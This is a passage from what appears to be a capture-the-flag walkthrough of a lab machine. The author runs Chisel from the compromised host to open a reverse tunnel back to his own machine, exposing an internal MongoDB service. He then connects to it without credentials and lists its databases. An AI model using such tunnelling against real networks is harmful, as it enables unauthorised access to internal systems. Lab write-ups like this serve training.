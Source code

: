     
    
    saul@talkative:/dev/shm$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.2:27017 
    2022/08/22 20:21:51 client: Connecting to ws://10.10.14.6:8000
    2022/08/22 20:21:52 client: Connected (Latency 86.206267ms)
    

The server reports success:

    
    
    2022/08/22 20:21:51 server: session#1: tun: proxy#R:27017=>172.17.0.2:27017: Listening
    

#### Enumerate DB

I’ll connect with `mongo` (`apt install mongodb-clients`):

    
    
    oxdf@hacky$ mongo
    MongoDB shell version v3.6.8
    connecting to: mongodb://127.0.0.1:27017
    Implicit session: session { "id" : UUID("08a04e87-1918-430a-b27e-8e4f9462a6bc") }
    MongoDB server version: 4.0.26
    WARNING: shell and server versions do not match
    Welcome to the MongoDB shell.
    For interactive help, type "help".
    For more comprehensive documentation, see
            http://docs.mongodb.org/
    Questions? Try the support group
            http://groups.google.com/group/mongodb-user
    Server has startup warnings: 
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] 
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
    2022-08-22T15:21:10.531+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] 
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
    2022-08-22T15:21:12.944+0000 I CONTROL  [initandlisten] 
    rs0:PRIMARY>
    

By default it will use localhost port 27017, which is my Chisel listening
port, so it works. It doesn’t seem to need creds.

There are four DBs:

    
    
    rs0:PRIMARY> show databases
    admin   0.000GB
    config  0.000GB
    local   0.011GB
    meteor  0.005GB
    